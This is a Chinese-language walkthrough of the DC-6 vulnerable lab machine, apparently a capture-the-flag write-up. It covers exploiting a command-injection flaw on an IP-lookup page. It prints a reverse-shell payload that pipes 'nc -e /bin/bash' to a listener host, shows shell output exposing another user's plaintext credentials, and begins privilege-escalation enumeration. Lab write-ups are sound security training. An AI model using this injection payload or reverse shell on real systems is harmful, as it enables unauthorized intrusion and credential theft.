 ### 漏洞利用

这是一个csrf漏洞和命令注入，利用`|`符号

history.pushState( )这是一个非常神奇的javascript方法，让页面无刷新增添浏览器历史记录。

```
语法 history.pushState(state, title, url)
```

找到这个漏洞页面

![image-20240308150126876](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240308150126876.png)

这个页面的功能有两个，上面按钮是将ipv4转换成长整形ip，下面的按钮是进行解析ip

利用`|`进行命令执行

![image-20240308150530986](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240308150530986.png)

那我们接着弹shell吧，

```
127.0.0.1| nc -e /bin/bash 192.168.56.101 1234
```

切换到home目录，

进行mark的家

```shell
www-data@dc-6:/home/mark/stuff$ ls
ls
things-to-do.txt
www-data@dc-6:/home/mark/stuff$ cat t*
cat t*
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```

发现，用户`graham - GSo7isUM1D4`

### 提权

先不急，看看别的目录

在jens的家目录，发现一个脚本

```
www-data@dc-6:/home/jens$ ls -al
ls -al
total 32
drwxr-xr-x 2 jens jens 4096 Mar  8 16:04 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rw------- 1 jens jens    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 jens jens  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 jens jens 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 jens jens  675 Apr 24  2019 .profile
-rwxrwxr-x 1 jens devs   48 Mar  8 16:10 backups.sh
```
